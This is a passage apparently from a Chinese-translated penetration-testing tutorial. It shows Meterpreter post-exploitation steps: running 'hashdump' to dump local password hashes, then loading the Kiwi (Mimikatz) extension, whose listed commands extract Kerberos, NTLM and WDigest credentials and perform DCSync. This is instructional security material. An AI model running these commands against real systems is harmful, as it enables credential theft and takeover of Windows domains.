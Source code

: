 ![](img/69a8ce8a-4f7f-46ea-be85-52e5a68a1fbc.png)

是掠夺和掠夺的时候了：

```
hashdump  
```

在下面的屏幕截图中，我们看到已转储本地哈希：

![](img/64ffa220-da8a-40eb-865a-73d3bee3b9bb.png)

所以我们有本地管理员的散列。很可能这也是域控制器和其他主机上的本地管理员，但是让我们也转储一些 Active Directory 信息。为此，我们需要加载 Kiwi 工具包：

```
load kiwi
```

要查看命令，请随时键入`help`。以下是 Kiwi 命令列表：

```
Kiwi Commands
=============
Command Description
------- -----------
creds_all Retrieve all credentials (parsed)
creds_kerberos Retrieve Kerberos creds (parsed)
creds_msv Retrieve LM/NTLM creds (parsed)
creds_ssp Retrieve SSP creds
creds_tspkg Retrieve TsPkg creds (parsed)
creds_wdigest Retrieve WDigest creds (parsed)
dcsync Retrieve user account information via DCSync (unparsed)
dcsync_ntlm Retrieve user account NTLM hash, SID and RID via DCSync
```